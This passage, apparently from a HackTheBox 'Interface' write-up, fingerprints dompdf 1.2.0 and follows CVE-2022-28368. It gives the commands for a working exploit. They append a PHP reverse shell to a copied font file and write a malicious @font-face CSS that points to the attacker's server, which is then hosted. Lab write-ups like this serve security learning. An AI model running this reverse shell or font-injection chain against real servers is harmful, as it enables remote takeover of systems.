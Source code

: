 Producer is `dompdf 1.2.0`.

- Source Code: [dompdf/dompdf: HTML to PDF converter for PHP](https://github.com/dompdf/dompdf)
- Document: [dompdf by dompdf](https://dompdf.github.io/)

Searched `dompdf 1.2.0` vulnerabilities, I found RCE.

- [Exploiting RCE Vulnerability in Dompdf \| Optiv](https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf)
- [From XSS to RCE (dompdf 0day) \| Positive Security](https://positive.security/blog/dompdf-rce)
- [Dompdf RCE \| Exploit Notes](https://exploit-notes.hdks.org/exploit/web/dompdf-rce/)

Also, this RCE is assigned CVE-2022-28368.

- [NVD - CVE-2022-28368](https://nvd.nist.gov/vuln/detail/CVE-2022-28368)
- [CVE - CVE-2022-28368](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28368)

## Foothold

Execute exploit according to [Dompdf RCE \| Exploit Notes](https://exploit-notes.hdks.org/exploit/web/dompdf-rce/).

1. Create Malicious Font

    ```console
    root@kali:~/htb/Machines/Interface# find / -name "*.ttf" 2>/dev/null
    (snip)
    /usr/share/fonts/truetype/dejavu/DejaVuSerif.ttf
    (snip)

    root@kali:~/htb/Machines/Interface# cp /usr/share/fonts/truetype/dejavu/DejaVuSerif.ttf ./evil.php

    root@kali:~/htb/Machines/Interface# echo "<?php system(\"bash -c 'bash -i >& /dev/tcp/10.10.16.11/8888 0>&1'\"); ?>" >> evil.php

    root@kali:~/htb/Machines/Interface# tail -1 evil.php
    Sd+(snip)+<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.11/8888 0>&1'"); ?>
    ```

2. Create Malicious CSS

    ```console
    root@kali:~/htb/Machines/Interface# vi evil.css

    root@kali:~/htb/Machines/Interface# cat evil.css
    @font-face {
      font-family: 'evil';
      src: url('http://10.10.16.11:8000/evil.php');
      font-weight: 'normal';
      font-style: 'normal';
    }
    ```

3. Host PHP & CSS

    ```console
    root@kali:~/htb/Machines/Interface# python3 -m http.server 8000
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    ```
